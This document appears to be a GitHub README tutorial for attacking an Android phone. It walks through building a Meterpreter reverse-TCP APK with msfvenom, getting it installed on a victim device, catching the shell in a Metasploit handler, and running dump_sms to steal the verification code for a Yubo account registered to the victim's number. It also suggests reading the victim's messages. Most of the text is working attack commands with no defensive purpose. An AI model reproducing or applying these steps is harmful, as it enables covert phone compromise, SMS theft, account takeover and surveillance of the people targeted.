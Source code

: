 vuln+exp:

First of all, let's get ourselves a victim phone or device: I am going to be using a Samsung Galaxy S6 running Android 7, kernel version 3.10.61-13830439 
and Knox 2.7.1. This phone is super old (and rooted, hence the outdated software) yet the exploit works.

Disclaimer: This exploit may work on Apple devices, however it is a different process as APK files do not run on iOS or OS X. 

First off, let's install Yubo. Once you have done this, make sure you have Metasploit installed. I will be using this in combination with a local Apache server
to transfer the APK easier. I will be using Ubuntu Budgie 20.04 but this works on any operating system.

First terminal command: ifconfig #this gives you the LHOST IP, indicated by 1.png in the repository.
Mine is 192.1.168.180 (yes, this only works on local networks however if you are a port forwarding nerd, this will work globally).

Next terminal command: [msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.180 LPOST=4444 R > attack.apk] #replace LHOST with your local IP.
LPORT is 4444, don't ask why, it just works. Also, don't ask why the R is there, again, it just works.

I am going to move this to my local Apache server - var/www/html/ but you can transfer via bluetooth, USB, google drive etc.

In the meantime, next terminal command: [msfconsole -q] #Ignore the sh!tty banner, we are getting down to business bois.
then, [use exploit/multi/handler] #this is our exploit handler.
Next, [set LHOST 192.168.1.180]  #again, replace with your local IP. LPORT should already be configured to 4444 in msfconsole.

Next, [set payload android/meterpreter/reverse_tcp] #this tells the exploit what payload to receive and handle.

Before you enter exploit, install the APK on the victim phone and leave it there. See 2.png in repository.

Enter [exploit] and click the APK once or twice. You should enter the phone.

If you don't get a functioning meterpreter shell, close the current session and show the sessions by typing (you guessed it), [sessions].
Switch session to a running one with [sessions -i 1] where 1 is the number of the session you want.

You now have full access to the phone, but don't get too excited. SMS is one of the only modules in here that is stealthy and the user gets no prompt
or knowledge of what we are doing. 

Go to Yubo > Sign up > enter random details >  enter the victim phone number - it will send a code. Here is where we come in. Go into your meterpreter
and type dump_sms (see P.O.C.png in repository).

I had to use prior screenshots from Kali seeing as the reverse_tcp was not connecting from my phone to computer. I will update these as soon
as it works again (it might actually be the new metasploit update).

I have also attached the screenshot of the dump_sms with the Yubo code.

When you dump the sms, the file will be saved in your home directory. Simple open the file and search for a Yubo code (or more juicy things if you are trying to spy on their messages). [cat [dump] | grep "Yubo"].
